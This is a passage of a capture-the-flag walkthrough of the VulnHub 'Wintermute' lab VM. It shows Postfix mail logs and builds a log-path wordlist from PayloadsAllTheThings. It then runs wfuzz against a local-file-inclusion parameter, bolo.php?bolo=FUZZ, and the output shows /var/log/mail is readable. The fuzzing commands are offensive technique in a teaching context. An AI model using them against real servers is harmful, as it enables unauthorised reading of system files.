 ```
Apr 14 19:24:31 straylight postfix/smtpd[4736]: warning: TLS library problem: error:1417D18C:SSL routines:tls_process_client_hello:version too low:../ssl/statem/statem_srvr.c:974:
Apr 14 19:24:31 straylight postfix/smtpd[4736]: lost connection after STARTTLS from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4736]: disconnect from unknown[192.168.251.4] ehlo=1 starttls=0/1 commands=1/2
Apr 14 19:24:31 straylight postfix/smtpd[4723]: connect from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4723]: SSL_accept error from unknown[192.168.251.4]: -1
Apr 14 19:24:31 straylight postfix/smtpd[4723]: warning: TLS library problem: error:1417D18C:SSL routines:tls_process_client_hello:version too low:../ssl/statem/statem_srvr.c:974:
Apr 14 19:24:31 straylight postfix/smtpd[4723]: lost connection after STARTTLS from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4723]: disconnect from unknown[192.168.251.4] ehlo=1 starttls=0/1 commands=1/2
Apr 14 19:27:52 straylight postfix/anvil[4594]: statistics: max connection rate 21/60s for (smtp:192.168.251.4) at Apr 14 19:24:31
Apr 14 19:27:52 straylight postfix/anvil[4594]: statistics: max connection count 4 for (smtp:192.168.251.4) at Apr 14 19:21:15
Apr 14 19:27:52 straylight postfix/anvil[4594]: statistics: max cache size 2 at Apr 14 19:21:08
Apr 15 04:14:16 straylight postfix/postfix-script[759]: starting the Postfix mail system
Apr 15 04:14:16 straylight postfix/master[761]: daemon started -- version 3.1.8, configuration /etc/postfix
All the activities have been logged including those during the scan process.
```
We can also use `PayloadsAllTheThings/File\ Inclusion/Intruders/` and wfuzz to bruteforce for possible directories.

Create a list as follows:

    kali@kali:~$ grep '.log$' PayloadsAllTheThings/File\ Inclusion/Intruders/*.txt | grep -Eiv  "windows|\mac" | cut -d ":" -f 2 | awk -F ".log$" '{print $1}'  > Logs,txt

Using the newly created list attempt to bruteforce for other possible directories.
```
kali@kali:~$ cd vulnhub/wintermute/ && wfuzz -c -z file,Logs,txt --hl 27 http://192.168.251.7/turing-bolo/bolo.php?bolo=FUZZ


Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.251.7/turing-bolo/bolo.php?bolo=FUZZ
Total requests: 370

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000269:   200        312 L    2998 W   30789 Ch    "/var/log/mail"

Total time: 1.762120
Processed Requests: 370
Filtered Requests: 368
Requests/sec.: 209.9742

```
We get the results we had before, work checking whilst doing other machines.


[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator